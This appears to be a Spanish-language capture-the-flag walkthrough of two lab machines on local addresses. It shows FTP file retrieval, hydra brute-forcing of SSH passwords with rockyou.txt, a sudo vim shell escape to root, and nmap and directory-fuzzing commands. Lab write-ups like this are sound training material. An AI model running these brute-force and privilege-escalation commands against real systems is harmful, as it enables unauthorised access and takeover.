 Lo primero que hago es comprobar si alguna de las versiones de los servicios encontrados es vulnerable (no) usando searchsploit 

![](Imágenes/Pasted%20image%2020240807180332.png)

Veo que hay unos ficheros en el ftp, así que me los descargo:

```
ftp ftp://172.17.0.2 
get pendientes.txt
get chat-gonza.txt
```

![](Imágenes/Pasted%20image%2020240807180657.png)

Miro el archivo y veo el nombre "russoski". Con hydra y el diccionario rockyou.txt, busco su contraseña (iloveme)

![](Imágenes/Pasted%20image%2020240807181119.png)

```
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Me conecto por ssh, y haciendo `sudo -l` veo que puedo ejecutar /usr/bin/vim con permisos de superusuario. 

![](Imágenes/Pasted%20image%2020240807181720.png)

Busco en gtfobin y veo que haciendo el siguiente comando me convierto en root:

```
sudo vim -c ':!/bin/sh'
```

![](Imágenes/Pasted%20image%2020240807181815.png)
# Trust
Fecha: 13/08/2024

Empiezo haciendo un nmap:
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.18.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240807234054.png)

Ninguno de los servicios es vulnerable.

Visito la página y no veo nada interesante, así que hago fuzzing (usando  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt). Quito la opción de Be Recursive para encontrar los directorios y ficheros en el primer nivel más rápido. Encuentro `secret.php`, y al mirarlo en el browser encuentro un mensaje con un nombre: `mario`. Probaré este usuario con la wordlist rockyou.txt en hydra. 

![](Imágenes/Pasted%20image%2020240813004636.png)

